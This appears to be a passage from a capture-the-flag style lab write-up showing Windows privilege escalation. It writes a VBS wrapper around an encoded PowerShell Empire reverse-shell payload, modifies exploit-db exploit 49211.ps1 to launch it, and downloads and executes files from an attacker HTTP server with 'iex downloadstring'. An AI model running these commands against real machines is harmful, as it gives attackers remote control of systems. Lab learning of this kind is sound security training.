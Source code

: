**FIX**:

> Tried several ways not to create file on target disk, all failed

Prepare a vbs revshell wrapper (Powershell payload was from Empire)

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ cat > update.vbs << EOF
Set objShell = CreateObject("Wscript.Shell")
objShell.Run("powershell -noP -sta -w 1 -enc SQBmACgAJABQ..."), 0, true
EOF
```

Modify the exploit code to run VBS revshell wrapper from smb share

```bash
vi 49211.ps1
```

> Showing diff

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ diff /usr/share/exploitdb/exploits/windows/local/49211.ps1 49211.ps1
15c3
< $cmd = "net user pwnd /add"
---
> $cmd = "C:\programdata\update.vbs"
```

Start http server

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Run the exploit

```bash
# Download the VBS file
PS C:\Users\thm-unpriv> (new-object net.webclient).downloadfile("http://10.11.19.145/update.vbs", "C:\Programdata\update.vbs")

PS C:\Users\thm-unpriv> iex(new-object net.webclient).downloadstring("http://10.11.19.145/49211.ps1")
22
4
4
248
```

On powershell empire client

![](../../attachment/44eec0f556ca800e948b83275596994c.png)
